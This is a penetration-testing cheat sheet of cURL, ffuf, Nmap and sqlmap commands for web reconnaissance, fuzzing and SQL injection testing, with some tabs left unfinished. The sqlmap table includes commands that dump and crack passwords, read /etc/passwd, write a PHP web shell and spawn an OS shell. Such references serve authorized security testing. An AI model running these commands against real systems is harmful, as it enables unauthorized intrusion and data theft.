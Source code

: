 # Tools

**Tools**

{% tabs %}
{% tab title="cURL" %}
**sqlmap and ZAP auth/cookie integration**

1. Open ZAP and login in to target application
2. Visit request that contains authenticated cookie
3. Copy the cookie value in the request tab
4. Run sqlmap command with cookie and proxy included

Example uses for the field:

Proxy sqlmap through ZAP with custom user agent "bughunter"

{% code overflow="wrap" %}
```bash
sqlmap -u "https://website.com/vulnerablepage/?id=1&Submit=Submit" --cookie="currentZAPcookie" --proxy http://127.0.0.1:8081 --batch --user-agent bughunter
```
{% endcode %}

Searching for the word "pass"

{% code overflow="wrap" %}
```bash
sqlmap -u "https://website.com/vulnerablepage/?id=1&Submit=Submit" --cookie="currentZAPcookie" --proxy http://127.0.0.1:8081 -D db_name --search -C pass --batch 
```
{% endcode %}

| Command                                                                                                            | Description                                          |
| ------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------- |
| `curl -h`                                                                                                          | curl help menu                                       |
| `curl website.com`                                                                                                 | Basic GET request                                    |
| `curl -s -O website.com/index.html`                                                                                | Download file                                        |
| `curl -k https://website.com`                                                                                      | Skip HTTPS (SSL) certificate validation              |
| `curl website.com -v`                                                                                              | Print full HTTP request/response details             |
| `curl -I https://www.website.com`                                                                                  | Send HEAD request (only prints response headers)     |
| `curl -i https://www.website.com`                                                                                  | Print response headers and response body             |
| `curl https://www.website.com -A 'Mozilla/5.0'`                                                                    | Set User-Agent header                                |
| `curl -u admin:admin http://<SERVER_IP>:<PORT>/`                                                                   | Set HTTP basic authorization credentials             |
| `curl http://admin:admin@<SERVER_IP>:<PORT>/`                                                                      | Pass HTTP basic authorization credentials in the URL |
| `curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/`                                       | Set request header                                   |
| `curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'`                                                            | Pass GET parameters                                  |
| `curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/`                                       | Send POST request with POST data                     |
| `curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/`                                        | Set request cookies                                  |
| `curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php`   | Send POST request with JSON data                     |
| `curl -s https://sonar.omnisint.io/subdomains/{domain} \| jq -r '.[]' \| sort -u`                                  | All subdomains for a given domain.                   |
| `curl -s https://sonar.omnisint.io/tlds/{domain} \| jq -r '.[]' \| sort -u`                                        | All TLDs found for a given domain.                   |
| `curl -s https://sonar.omnisint.io/all/{domain} \| jq -r '.[]' \| sort -u`                                         | All results across all TLDs for a given domain.      |
| `curl -s https://sonar.omnisint.io/reverse/{ip} \| jq -r '.[]' \| sort -u`                                         | Reverse DNS lookup on IP address.                    |
| `curl -s https://sonar.omnisint.io/reverse/{ip}/{mask} \| jq -r '.[]' \| sort -u`                                  | Reverse DNS lookup of a CIDR range.                  |
| `curl -s "https://crt.sh/?q=${TARGET}&output=json" \| jq -r '.[] \| "\(.name_value)\n\(.common_name)"' \| sort -u` | Certificate Transparency.                            |
{% endtab %}

{% tab title="ffuf" %}
| Command                                                                                                                                                         | Description                                                                   |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- |
| `ffuf -h`                                                                                                                                                       | ffuf help                                                                     |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`                                                                                                       | Directory Fuzzing                                                             |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`                                                                                                  | Extension Fuzzing                                                             |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`                                                                                              | Page Fuzzing                                                                  |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`                                                              | Recursive Fuzzing                                                             |
| `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.website.com/`                                                                                                        | Sub-domain Fuzzing                                                            |
| `ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.website.com' -fs xxx`                                                                     | VHost Fuzzing                                                                 |
| `ffuf -w wordlist.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php?FUZZ=key -fs xxx`                                                                   | Parameter Fuzzing - GET                                                       |
| `ffuf -w wordlist.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` | Parameter Fuzzing - POST                                                      |
| `ffuf -w ids.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`       | Value Fuzzing                                                                 |
| `ffuf -w ./vhosts -u http:// -H "HOST: FUZZ.target.domain" -fs 612`                                                                                             | Bruteforcing for possible virtual hosts on the target domain using ffuf.      |
| `ffuf -recursion -recursion-depth 1 -u http://192.168.10.10/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt`            | Discovering files and folders that cannot be spotted by browsing the website. |
| `ffuf -w ./folders.txt:FOLDERS,./wordlist.txt:WORDLIST,./extensions.txt:EXTENSIONS -u http://www.target.domain/FOLDERS/WORDLISTEXTENSIONS`                      | Mutated bruteforcing                                                          |
{% endtab %}

{% tab title="Nmap" %}
### Nmap

Scan a port with Nmap via proxy with the `-Pn` flag to skip host discovery and scripts

```shell-session
nmap --proxies http://127.0.0.1:8080 SERVER_IP -pPORT -Pn -sC
```
{% endtab %}

{% tab title="Git" %}
**How to commit changes from local machine**
{% endtab %}

{% tab title="SQLmap" %}
| Command                                                                                                                   | Description                                                 |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |
{% endtab %}

{% tab title="Postman" %}
**Setup**

1. Set manual upstream proxy (Burp/ZAP)
2. Save first successful request as new collection
3. Highlight base URL and right-click "set as variable" and select collection scope
4. Set other common URLs for testing as different variables
5. Verify new variables by hovering over Collection>"more actions" dropdown menu> Variables tab

**Query Parameters**

1. Name and Save new request to corresponding collection

(Optional) Modify key and value pair `{{baseURL}}?key=value`

**Path Variables**
{% endtab %}
{% endtabs %}
